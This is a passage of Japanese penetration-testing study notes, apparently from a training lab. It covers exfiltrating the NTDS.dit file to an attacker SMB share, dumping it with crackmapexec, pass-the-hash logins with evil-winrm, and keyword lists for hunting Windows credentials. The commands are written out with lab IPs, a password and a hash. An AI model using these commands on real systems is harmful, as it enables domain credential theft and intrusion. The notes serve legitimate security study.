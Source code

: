 転送は、[[File Transfer]]の「LinuxでSMBサーバーを建てる」の方法で、攻撃元のLinuxを準備する

攻撃先のWindows用のコマンド
```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\<攻撃元のIP>\CompData 
```


### CrackMapExecを使うことで自動化する
- 上記と同じ手順をすべて1つのコマンドでできる
- このコマンドを使用すると、VSSを利用して、ターミナルセッション内でNTDS.ditファイルの内容をすばやくキャプチャしてダンプする
- 攻撃元のホストで以下のコマンドを実行
```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

### ハッシュのクラックとPass-The-Hashでのログイン
- ハッシュのクラックは、SAM攻撃、LSASS攻撃と同様の手法でできる

Pass-The-Hash
- ハッシュを使用して、`Pass-the-Hash`（`PtH`）と呼ばれるタイプの攻撃を使用してシステムで認証
- PtH 攻撃は、[NTLM 認証プロトコル](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm#:~:text=NTLM%20uses%20an%20encrypted%20challenge,to%20the%20secured%20NTLM%20credentials)を利用して、パスワード ハッシュを使用してユーザーを認証する
	- ログインの形式として`username`:`clear-text password`の代わりに、`username`:`password hash`を使用できる

コマンド
```shell-session
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

ターゲットへの初期侵入後、ネットワーク内で横展開を行う必要がある場合に、Pass-The-Hashを試みることができる

# Windowsでの資格情報ハンティング(Credential Hunting)
- `Credential Hunting`は、ファイルシステム全体とさまざまなアプリケーションを通じて詳細な検索を実行してクレデンシャルを発見するプロセス

## 検索
- ユーザがシステムのどこかにパスワードを文書化している可能性がある
- デフォルトの資格情報の中でさまざまなファイルを見つけることができる

IT 管理者は日常的に何をしていますか？資格情報が必要なタスクはどれですか？
と考えて、検索するのが大事

#### 検索する主な用語
- Passwords
- Passphrases
- Keys
- Username
- User account
- Creds
- Users
- Passkeys
- Passphrases
- configuration
- dbcredential
- dbpassword
- pwd	Login
- Credentials
